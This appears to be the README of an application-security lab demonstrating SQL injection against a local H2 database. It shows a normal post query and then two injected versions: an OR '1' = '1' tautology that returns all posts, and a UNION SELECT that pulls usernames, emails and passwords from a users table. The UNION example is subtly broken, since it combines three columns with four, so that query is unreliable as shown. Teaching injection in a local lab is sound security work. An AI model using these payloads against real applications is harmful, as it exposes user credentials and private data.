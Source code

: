 # appsec-validation-injection-sql

http://localhost:8080/h2-console/login.jsp?jsessionid=6350ae370854407184e14377bbff4db7

```sql
SELECT id, slug, title
FROM posts, user_posts
WHERE posts.id = user_posts.post_id
  AND user_posts.user_id = 2
  AND slug = 'post-a'
```

![appsec-validation-injection-sql-retrieve-post-by-user.png](README/appsec-validation-injection-sql-retrieve-post-by-user.png)

```sql
SELECT id, slug, title
FROM posts, user_posts
WHERE posts.id = user_posts.post_id
  AND user_posts.user_id = 2
  AND slug = 'post-a'
  OR '1' = '1'
```

![appsec-validation-injection-sql-retrieve-all-posts.png](README/appsec-validation-injection-sql-retrieve-all-posts.png)

```sql
SELECT id, slug, title
FROM posts, user_posts
WHERE posts.id = user_posts.post_id
  AND user_posts.user_id = 2
  AND slug = 'post-a'
UNION
SELECT id, username, email, password
FROM users
WHERE '1'= '1'
```

![appsec-validation-injection-sql-retrieve-all-users.png](README/appsec-validation-injection-sql-retrieve-all-users.png)

